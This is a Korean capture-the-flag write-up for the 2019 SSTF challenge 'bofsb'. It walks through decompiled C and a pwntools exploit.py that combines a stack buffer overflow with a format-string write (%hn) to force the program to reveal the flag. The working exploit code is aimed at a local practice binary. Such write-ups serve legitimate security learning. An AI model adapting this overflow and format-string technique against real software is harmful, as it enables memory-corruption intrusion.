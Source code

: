 ```yaml
---
title: "2019 SSTF bofsb"
date: 2020-1-6
tags: [SSTF]
categories: [SSTF]
---
```


32비트 바이너리다. 메인은 1,2 입력받아서 각각 format에 Black, White 저장해준다. 그리고 name 주소를 magic code라면서 준다. 이름을 입력하는 곳에서는 bof가 터진다. 그리고  `printf(format);` 에서는 FSB가 터진다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-50h]
  int name; // [esp+4h] [ebp-4Ch]
  char *format; // [esp+44h] [ebp-Ch]
  unsigned int v7; // [esp+48h] [ebp-8h]

  v7 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("Welcome to Othello game!");
  puts("Please select your color.");
  puts(" 1: Black");
  puts(" 2: White");
  printf(" > ");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    format = "Black";
  }
  else
  {
    if ( v4 != 2 )
    {
      puts("You selected a wrong number.");
      exit(0);
    }
    format = "White";
  }
  printf("okay, please remember this magic code: %p\n", &name);
  printf("Please enter your name: ");
  __isoc99_scanf("%s", &name);
  printf("%s, your color is ", &name);
  printf(format);
  if ( playOthello(v4) )
  {
    puts("Congrats, You Win!!");
    showFlag();
  }
  else
  {
    puts("Sorry, you lose.");
  }
  return 0;
}
```

`playOthello` 함수는 v4의 값이 33이면 `showFlag` 로 가서 flag 파일을 읽어서 출력해준다. 그러면 우선 v4의 값은 1 아니면 2인데 이를 바꿔주면 된다. 

```c
_BOOL4 __cdecl playOthello(int a1)
{
  printf("\n\nLet the games Begin... Your card is %x\n", a1);
  return a1 == 33;
}
```

name은 ebp-0x4C에 있고 format은 0xC에 존재하므로 name의 크기는 0x40이다. 여기서 name을 입력받을 때 0x40 이후 4바이트를 입력하면 format을 덮을 수 있다.

name 입력할 때 format을 v5(&name)으로 덮어버린다. 그러면 `printf(format) -> printf(name)`이 될것이다. 

scanf는 공백으로 입력 값을 구분하므로 공백 없이 값을 넣어줘야한다. 

payload : 'A'*4 + "%p%p%p%p%p" + "A" * (0x40-len(전에넣었던만큼)) + p32(name)

이런식으로 넣어서 offset을 구해줄 수 있다. 그러면 0x41414141이 2번째에 나온다.

이제 AAAA 대신 v4를 넣어주고 29만큼 채운 후 `%2$hn` 으로 v4주소에 앞서 출력한 33바이트만큼을 넣어주고 64바이트만큼 채운 다음에 &name을 넣어주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
# context.log_level = 'debug'
e = ELF('./bofsb')
p = process('./bofsb')

p.sendlineafter('>','1')
p.recvuntil(': ')
name = int(p.recvline(),16)
v4 = name - 4
log.info('name addr : ' + hex(name))
log.info('v4 : ' + hex(v4))
'''
payload = 'A'*4
payload += '%p%p%p%p%p%p'
payload += 'A'*(0x40-len(payload))
payload += p32(name)
'''
payload = p32(v4)
payload += '%{}c'.format(33-4)
payload += '%{}$hn'.format(2)
payload += 'B'*(64-len(payload))
payload += p32(name)
p.sendlineafter(':',payload)

p.interactive()
```





